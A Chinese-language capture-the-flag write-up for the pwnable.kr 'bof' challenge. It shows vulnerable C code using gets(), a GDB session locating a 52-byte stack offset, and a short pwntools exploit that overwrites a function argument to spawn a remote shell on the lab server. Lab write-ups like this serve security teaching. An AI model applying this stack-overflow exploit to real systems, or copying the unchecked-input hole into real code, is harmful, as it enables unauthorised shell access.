






- 靶场标志：
    

- 点开这个标志：
    

- 通过``wget http://pwnable.kr/bin/bof``和``wget http://pwnable.kr/bin/bof.c``来下载这两个文件，下载好之后，打开bof.c：
    ```c
    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>
    void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
            system("/bin/sh");
        }
        else{
            printf("Nah..\n");
        }
    }
    int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
    }
    ```
    找到system("/bin/sh");，flag就会从这里输出，但是条件是需要key的值等于0xcafebabe，key是函数func的参数，在func函数中通过gets函数输出overflowme，然后来看看main函数，main中调用了func，但是在这里func中key的值已经被定好了：func(0xdeadbeef)，这就是这道题冲突的地方，key的值需要等于0xcafebabe才能执行，但是此时key已经被赋好值了，所以思路就是将key中的值0xdeadbeef变成0xcafebabe，这里的gets函数可以无限制的输入值，所以我们思路就是通过gets函数传入值使得程序出现栈溢出，将0xdeadbeef覆盖

- GDB分析：

    gdb bof进入gdb：
    

    start开始运行程序：
    

    disassemble func来查看func函数的反汇编代码：
    

    可以看到以上的cmp指令，cmp指令就等于c语言中的if语句，起到判断的作用，因为判断之后根据判断过后的结果进入分支，所以我们在这里打断点，``b *0x56555654``：
    

    r 运行：
    
    
    随便输入一些数据：
    

    x/40xw $esp（x:以十六进制显示w:以4字节为一个单位显示）查看从断点开始往后40个字节的内存值，因为esp是我们的程序流指针，其里面保存了程序在func栈中运行时的内存的变化：
    

    可以看到从第一个0x41414141到0xdeadbeef距离是13个单位，一个单位是4字节所以就是52个字节，偏移量就是52，所以我们只要传入52个字节的垃圾数据再次传入0xcafebabe覆盖0xdeadbeef就可以执行system("/bin/sh")
    
- 开始编写exp：
    ```python
    from pwn import *
    c = remote("pwnable.kr",9000)
    c.sendline("AAAA"*13+p32(0xcafebabe))
    c.interactive()
    ```

    运行即可得到FLAG